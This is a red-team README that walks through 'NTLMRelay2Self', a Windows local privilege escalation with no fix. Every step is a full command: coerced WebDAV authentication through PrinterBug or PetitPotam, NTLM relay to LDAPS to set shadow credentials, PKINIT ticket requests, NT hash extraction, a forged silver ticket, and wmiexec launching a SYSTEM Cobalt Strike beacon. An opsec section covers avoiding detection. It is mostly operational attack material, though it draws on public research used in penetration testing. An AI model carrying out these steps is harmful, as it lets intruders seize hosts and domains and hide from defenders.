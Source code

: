 # NTLMRelay2Self

## NTLMRelay2Self over HTTP (Webdav)
 
<b>An other No-Fix LPE</b>

Just a walkthrough of how to escalate privileges locally by forcing the system you landed initial access on to reflectively authenticate over HTTP to itself and forward the received connection to an HTTP listener (ntlmrelayx) configured to relay to DC servers over LDAP/LDAPs for either setting shadow credentials or configuring RBCD.

This would result in a valid kerberos TGT ticket that can be used to obtain a TGS for a service (HOST/CIFS) using `S4U2Self` by impersonating a user with local administrator access to the host (domain admin ..etc), or alternatively, it's also possible to retrieve the machine account's NTLM hash with getnthash.py and then create a silver ticket.

Lastly, use the TGS or silver ticket to spawn a system (session 0) process, this can be achieved by simply using `WMIExec` or alternatively using `SCMUACBypass` script to rely on kerberos for auth to interact with the SCM and create a service in the context of SYSTEM.

The steps below lists all the actions taken to escalate privileges locally on an up to date Windows 10 (1909) system, the cobalt strike beacon (or any other c2 agent) is running in the context of an unprivileged user `LAB\User1`. 


<b>Domain:</b> lab.local <br>
<b>DC IP:</b> 10.2.10.1 <br>
<b>Win10 IP:</b> 10.10.177.112 <br>
<b>Linux machine CS client running on:</b> 172.16.1.5 <br>

### <u>Steps:</u>


1. Start the WebClient service from an unprivileged context: <br>
    `inline-execute StartWebClientSvc.x64.o`
    `sc_query webclient`

2. On your cobalt strike beacon, setup a socks proxy and reverse port forward: <br>
`socks 5009`<br>
`rportfwd_local 80 172.16.1.5 80`

3. Check if `msDS-KeyCredentialLink` attribute is Not already set on the current `WIN10` machine account. <br>
`ldapsearch "(&(objectClass=computer)(sAMAccountName=WIN10*))" sAMAccountName,msDS-KeyCredentialLink`

4. Setup the Listener on Linux system CS client is running on: <br>
`proxychains python3 ntlmrelayx.py -domain lab.local -t ldaps://10.2.10.1 --shadow-credentials --shadow-target WIN10\$`

5. Coerce the `WIN10` system to authenticate to itself to port 80 (HTTP), this requires the <u>WebClient</u> service and the <u>Printer Spooler</u> service to be running on `WIN10`::<br>
`proxychains python3 printerbug.py "lab.local/User1:Passw0rd01@10.10.177.112" wind10@80/print` <br> Alternatively, you can use PetitPotam: <br>
`python3 PetitPotam.py -u User1 -p Passw0rd01 -d lab.local WIN10@80/print 10.10.177.112`

7. If the previous two (2) steps were executed with no error, you should get a message stating shadow credentials were successfully set on the WIN10$ machine account, you can quiclky check for that using: <br>
`ldapsearch "(&(objectClass=computer)(sAMAccountName=WIN10*))" sAMAccountName,msDS-KeyCredentialLink`

<br><b>The remaining steps are standard PKINIT actions to get a TGT for WIN10$, then recover the NT Hash and lastly create a silver ticket for the `HOST\WIN10` SPN: </b><br><br>

8. Request a TGT for WIN10$:<br>
 `proxychains python3 gettgtpkinit.py -cert-pfx WIN10.pfx -pfx-pass 8kX4grjUrY8gvzjrphl5 lab.local/WIN10$ WIN10.ccache`

9. `export KRB5CCNAME=/PATH_TO/WIN10.ccache`

10. Get the NT Hash:<br>
 `proxychains python3 getnthash.py -key 397eef25429f6b7249a11dfaa874df5c92bf44974b1bb962591937d656f0e827 -dc-ip 10.2.10.1 lab.local/WIN10$`

11. Create a silver ticket for the HOST SPN:<br>
 `impacket-ticketer -domain-sid S-1-5-21-81107902-1099128984-1836738286 -domain lab.local -spn HOST/WIN10.LAB.LOCAL -nthash db6484c89c273e269a23b1bdc53f7cdf -user-id 1155 Administrator`

12. Export the silver ticket for kerberos auth:<br>
 `export KRB5CCNAME=/PATH_TO/Administrator.ccache`

13. Get a SYSTEM beacon using `Wmiexec`:<br>
`proxychains4 python3 wmiexec.py -nooutput -silentcommand -dc-ip 10.2.10.1 -k -no-pass lab.local/Administrator@WIN10.LAB.LOCAL 'C:\Users\User1\Desktop\Files\mcbuilder.exe'` <br>
Or alternatively use `SCMUACBypass` script from James (@tiraniddo)


### <u>Cleanup:</u>

1. Export the TGT created in step 8:<br>
 `export KRB5CCNAME=/PATH_TO/WIN10.ccache`

2. Get the public key set on `ms-dsKeyCredentialLink` GUID:<br>
 `proxychains python3 pywhisker.py -u "WIN10$" -d "lab.local" --dc-ip 10.2.10.1 -k --no-pass --target 'WIN10$' --action "list" -vv`

3. Remove the public key set:<br>
 `proxychains python3 pywhisker.py -u "WIN10$" -d "lab.local" --dc-ip 10.2.10.1 -k --no-pass --target 'WIN10$' --action "remove" -D 97dc9d92-6d23-6031-7e1d-b5a13e305c8b`

4. Check if the public key is removed:<br>
 `ldapsearch "(&(objectClass=computer)(sAMAccountName=WIN10*))" sAMAccountName,msDS-KeyCredentialLink`


### <u>Notes:</u>

* Shadow Credentials requires LDAP signing and channel binding to be disabled, you can use `LDAPRelayScan` to confirm that.
* Machine accounts are allowed to change their own LDAP attributes (Not applicable for user accounts), however keep in mind that this will only work in case if the `ms-DSKeyCredentialLink` attribute does not exist for the machine account we want to LPE on.
* LDAP Signing and Channel Binding must be disabled on the DC (typical configuration for many DC deployments)
* When Testing in a HomeLab, make sure you've:
    * Windows Server 2016 Functional Level for AD
    * A digital certificate for Server Authentication on DC.
    * Disable Windows Firewall on the Win10 system, this would not be a road block when dealing with real world organizations.

### <u>Opsec !!:</u>

- Using Ticketer for forging a silver ticket from the NT hash can be detected (ATA) by monitoring for RC4 encrypted Kerberos ticket, most modern MS environments rely on AES Kerberos encryption instead. an alternative would be to use S4U2Self to obtain a TGS ticket check `gets4uticket` from Dirk-jan.

- SCMUACBypass creates a service, can be customized to update an existing service and point it to your beacon payload instead of `cmd.exe`, `Wmiexec` doesn't create any services, that does not mean that Wmiexec with `-nooutput` and `-silentcommand` have no detections. just an opsec-safe alternative with a minimal footprint, i could be wrong though, who knows. 

- Shadow Credentials changes the `ms-DsKeyCredentialLink` only, on the other hand RBCD requires the `MachineQuota` to be set to 10 for default domain users (not always the case), plus a computer object will need to be created or have control over an existing AD joined system with an SPN set (required for delegation), then reflect it in the `AllowedToActOnBehalfOfOtherIdentity` LDAP attribute.



### <u>Refs: </u>
* `LdapRelayScan` https://github.com/zyn3rgy/LdapRelayScan
* `SCMBypassUAC` https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82
* `gets4uticket` https://github.com/dirkjanm/PKINITtools/blob/master/gets4uticket.py
* `impacket` https://github.com/SecureAuthCorp/impacket

### <u>Credits: </u>
Based on the research and tools/PoCs created by:
* @tifkin_
* @tiraniddo
* @_dirkjan
* @harmj0y
* topotam

